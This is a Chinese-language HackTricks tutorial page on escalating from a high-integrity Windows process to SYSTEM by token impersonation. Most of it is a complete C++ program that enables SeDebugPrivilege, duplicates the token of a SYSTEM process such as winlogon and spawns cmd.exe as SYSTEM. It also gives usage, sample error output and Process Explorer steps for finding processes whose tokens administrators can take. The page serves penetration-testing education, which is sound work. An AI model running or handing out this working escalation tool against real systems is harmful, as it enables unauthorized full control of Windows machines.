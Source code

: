 # 从高权限到系统的 SeImpersonate

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS 红队专家）</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想看到您的**公司在 HackTricks 中做广告**或**下载 PDF 版的 HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 探索[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或在 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)** 上关注我们**。
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>

### 代码

以下代码来自[这里](https://medium.com/@seemant.bisht24/understanding-and-abusing-access-tokens-part-ii-b9069f432962)。它允许**将一个进程 ID 作为参数**，并且将作为指定进程用户的 CMD 运行。\
在高完整性进程中，您可以**指定一个以 System 身份运行的进程的 PID**（如 winlogon、wininit），并以系统身份执行 cmd.exe。
```cpp
impersonateuser.exe 1234
```
{% code title="impersonateuser.cpp" %}
```cpp
// From https://securitytimes.medium.com/understanding-and-abusing-access-tokens-part-ii-b9069f432962

#include <windows.h>
#include <iostream>
#include <Lmcons.h>
BOOL SetPrivilege(
HANDLE hToken,          // access token handle
LPCTSTR lpszPrivilege,  // name of privilege to enable/disable
BOOL bEnablePrivilege   // to enable or disable privilege
)
{
TOKEN_PRIVILEGES tp;
LUID luid;
if (!LookupPrivilegeValue(
NULL,            // lookup privilege on local system
lpszPrivilege,   // privilege to lookup
&luid))        // receives LUID of privilege
{
printf("[-] LookupPrivilegeValue error: %u\n", GetLastError());
return FALSE;
}
tp.PrivilegeCount = 1;
tp.Privileges[0].Luid = luid;
if (bEnablePrivilege)
tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
else
tp.Privileges[0].Attributes = 0;
// Enable the privilege or disable all privileges.
if (!AdjustTokenPrivileges(
hToken,
FALSE,
&tp,
sizeof(TOKEN_PRIVILEGES),
(PTOKEN_PRIVILEGES)NULL,
(PDWORD)NULL))
{
printf("[-] AdjustTokenPrivileges error: %u\n", GetLastError());
return FALSE;
}
if (GetLastError() == ERROR_NOT_ALL_ASSIGNED)
{
printf("[-] The token does not have the specified privilege. \n");
return FALSE;
}
return TRUE;
}
std::string get_username()
{
TCHAR username[UNLEN + 1];
DWORD username_len = UNLEN + 1;
GetUserName(username, &username_len);
std::wstring username_w(username);
std::string username_s(username_w.begin(), username_w.end());
return username_s;
}
int main(int argc, char** argv) {
// Print whoami to compare to thread later
printf("[+] Current user is: %s\n", (get_username()).c_str());
// Grab PID from command line argument
char* pid_c = argv[1];
DWORD PID_TO_IMPERSONATE = atoi(pid_c);
// Initialize variables and structures
HANDLE tokenHandle = NULL;
HANDLE duplicateTokenHandle = NULL;
STARTUPINFO startupInfo;
PROCESS_INFORMATION processInformation;
ZeroMemory(&startupInfo, sizeof(STARTUPINFO));
ZeroMemory(&processInformation, sizeof(PROCESS_INFORMATION));
startupInfo.cb = sizeof(STARTUPINFO);
// Add SE debug privilege
HANDLE currentTokenHandle = NULL;
BOOL getCurrentToken = OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &currentTokenHandle);
if (SetPrivilege(currentTokenHandle, L"SeDebugPrivilege", TRUE))
{
printf("[+] SeDebugPrivilege enabled!\n");
}
// Call OpenProcess(), print return code and error code
HANDLE processHandle = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, true, PID_TO_IMPERSONATE);
if (GetLastError() == NULL)
printf("[+] OpenProcess() success!\n");
else
{
printf("[-] OpenProcess() Return Code: %i\n", processHandle);
printf("[-] OpenProcess() Error: %i\n", GetLastError());
}
// Call OpenProcessToken(), print return code and error code
BOOL getToken = OpenProcessToken(processHandle, MAXIMUM_ALLOWED, &tokenHandle);
if (GetLastError() == NULL)
printf("[+] OpenProcessToken() success!\n");
else
{
printf("[-] OpenProcessToken() Return Code: %i\n", getToken);
printf("[-] OpenProcessToken() Error: %i\n", GetLastError());
}
// Impersonate user in a thread
BOOL impersonateUser = ImpersonateLoggedOnUser(tokenHandle);
if (GetLastError() == NULL)
{
printf("[+] ImpersonatedLoggedOnUser() success!\n");
printf("[+] Current user is: %s\n", (get_username()).c_str());
printf("[+] Reverting thread to original user context\n");
RevertToSelf();
}
else
{
printf("[-] ImpersonatedLoggedOnUser() Return Code: %i\n", getToken);
printf("[-] ImpersonatedLoggedOnUser() Error: %i\n", GetLastError());
}
// Call DuplicateTokenEx(), print return code and error code
BOOL duplicateToken = DuplicateTokenEx(tokenHandle, MAXIMUM_ALLOWED, NULL, SecurityImpersonation, TokenPrimary, &duplicateTokenHandle);
if (GetLastError() == NULL)
printf("[+] DuplicateTokenEx() success!\n");
else
{
printf("[-] DuplicateTokenEx() Return Code: %i\n", duplicateToken);
printf("[-] DupicateTokenEx() Error: %i\n", GetLastError());
}
// Call CreateProcessWithTokenW(), print return code and error code
BOOL createProcess = CreateProcessWithTokenW(duplicateTokenHandle, LOGON_WITH_PROFILE, L"C:\\Windows\\System32\\cmd.exe", NULL, 0, NULL, NULL, &startupInfo, &processInformation);
if (GetLastError() == NULL)
printf("[+] Process spawned!\n");
else
{
printf("[-] CreateProcessWithTokenW Return Code: %i\n", createProcess);
printf("[-] CreateProcessWithTokenW Error: %i\n", GetLastError());
}
return 0;
}
```
{% endcode %}

### 错误

在某些情况下，您可能尝试模拟System用户，但会出现以下类似的输出：
```cpp
[+] OpenProcess() success!
[+] OpenProcessToken() success!
[-] ImpersonatedLoggedOnUser() Return Code: 1
[-] ImpersonatedLoggedOnUser() Error: 5
[-] DuplicateTokenEx() Return Code: 0
[-] DupicateTokenEx() Error: 5
[-] CreateProcessWithTokenW Return Code: 0
[-] CreateProcessWithTokenW Error: 1326
```
这意味着即使您在高完整性级别上运行，**权限仍不足**。\
让我们使用**进程资源管理器**（或者您也可以使用进程管理器）检查`svchost.exe`进程的当前管理员权限：

1. 选择一个`svchost.exe`进程
2. 右键单击 --> 属性
3. 在“安全”选项卡中，点击右下角的“权限”按钮
4. 点击“高级”
5. 选择“管理员”并点击“编辑”
6. 点击“显示高级权限”

![](<../../.gitbook/assets/image (437).png>)

上图显示了“管理员”对所选进程的所有权限（如您所见，对于`svchost.exe`，他们只有“查询”权限）

查看“管理员”对`winlogon.exe`的权限：

![](<../../.gitbook/assets/image (1102).png>)

在该进程中，“管理员”可以“读取内存”和“读取权限”，这可能允许管理员模拟此进程使用的令牌。
